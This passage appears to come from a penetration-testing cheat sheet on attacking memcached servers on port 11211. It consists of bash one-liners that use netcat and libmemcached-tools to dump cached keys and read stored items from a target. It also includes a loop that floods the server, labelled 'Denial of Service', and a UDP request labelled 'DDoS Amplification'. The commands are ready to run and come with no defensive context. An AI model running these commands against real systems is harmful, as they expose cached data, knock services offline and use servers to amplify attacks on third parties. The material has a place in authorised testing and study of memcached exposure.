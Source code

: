 ```bash
echo "stats cachedump 1 10" | nc -vn -w 1 $TARGET 11211
```

{% hint style="info" %}
Get Info Saved
{% endhint %}

```bash
echo "get $ITEM" | nc -vn -w 1 $TARGET 11211
```

{% hint style="info" %}
Denial of Service
{% endhint %}

```bash
for i in {1..10000}; do echo "set key$i 0 0 1024" | nc $TARGET 11211; done
```

{% hint style="info" %}
DDoS Amplification
{% endhint %}

```bash
echo -e "\x00\x00\x00\x00\x00\x01\x00\x00stats\n" | nc -u -q 1 $TARGET 11211
```

#### [libmemcached-tools](https://libmemcached.org/libMemcached.html)

{% hint style="info" %}
Get Stats
{% endhint %}

```bash
memcstat --servers=$TARGET
```

{% hint style="info" %}
Get all items
{% endhint %}

```bash
memcdump --servers=$TARGET
```

{% hint style="info" %}
Get info inside the item(s)
{% endhint %}

```bash
memccat --servers=$TARGET $ITEM1 $ITEM2 $ITEM3
```

[Metasploit](https://www.metasploit.com/)

{% hint style="info" %}
Extract Slabs
{% endhint %}
